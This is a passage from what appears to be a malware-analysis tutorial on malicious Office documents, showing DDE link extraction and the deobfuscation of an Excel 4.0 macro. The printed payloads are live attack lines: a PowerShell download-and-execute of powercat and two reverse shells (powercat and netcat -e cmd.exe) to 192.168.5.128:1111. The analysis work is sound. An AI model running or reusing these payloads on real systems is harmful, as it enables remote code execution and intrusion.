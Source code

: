     Opening file: DDE-attack.docx
    DDE Links:
     DDEAUTO c:\\windows\\system32\\cmd.exe "/k powershell -c IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.5.128/powercat.ps1');powercat -c 192.168.5.128 -p 1111 -e cmd

# Excel 4.0 macros
**XLMMacroDeobfuscator** can be used to decode obfuscated XLM macros (also known as Excel 4.0 macros)

    remnux@remnux:~/Desktop$ xlmdeobfuscator -f excel4macro.xls 
    pywin32 is not installed (only is required if you want to use MS Excel)
    
              _        _______
    |\     /|( \      (       )
    ( \   / )| (      | () () |
     \ (_) / | |      | || || |
      ) _ (  | |      | |(_)| |
     / ( ) \ | |      | |   | |
    ( /   \ )| (____/\| )   ( |
    |/     \|(_______/|/     \|
       ______   _______  _______  ______   _______           _______  _______  _______ _________ _______  _______
      (  __  \ (  ____ \(  ___  )(  ___ \ (  ____ \|\     /|(  ____ \(  ____ \(  ___  )\__   __/(  ___  )(  ____ )
      | (  \  )| (    \/| (   ) || (   ) )| (    \/| )   ( || (    \/| (    \/| (   ) |   ) (   | (   ) || (    )|
      | |   ) || (__    | |   | || (__/ / | (__    | |   | || (_____ | |      | (___) |   | |   | |   | || (____)|
      | |   | ||  __)   | |   | ||  __ (  |  __)   | |   | |(_____  )| |      |  ___  |   | |   | |   | ||     __)
      | |   ) || (      | |   | || (  \ \ | (      | |   | |      ) || |      | (   ) |   | |   | |   | || (\ (
      | (__/  )| (____/\| (___) || )___) )| )      | (___) |/\____) || (____/\| )   ( |   | |   | (___) || ) \ \__
      (______/ (_______/(_______)|/ \___/ |/       (_______)\_______)(_______/|/     \|   )_(   (_______)|/   \__/
    
        
    XLMMacroDeobfuscator(v 0.1.4) - https://github.com/DissectMalware/XLMMacroDeobfuscator
    
    File: /home/remnux/Desktop/excel4macro.xls
    
    Unencrypted xls file
    
    [Loading Cells]
    [Starting Deobfuscation]
    There is no entry point, please specify a cell address to start
    Example: Sheet1!A1
    Macro1!A1
    CELL:A1        , PartialEvaluation   , EXEC("nc -nv 192.168.5.128 1111 -e cmd.exe")
    CELL:A2        , PartialEvaluation   , RETURN()
    [END of Deobfuscation]
    time elapsed: 5.669408082962036



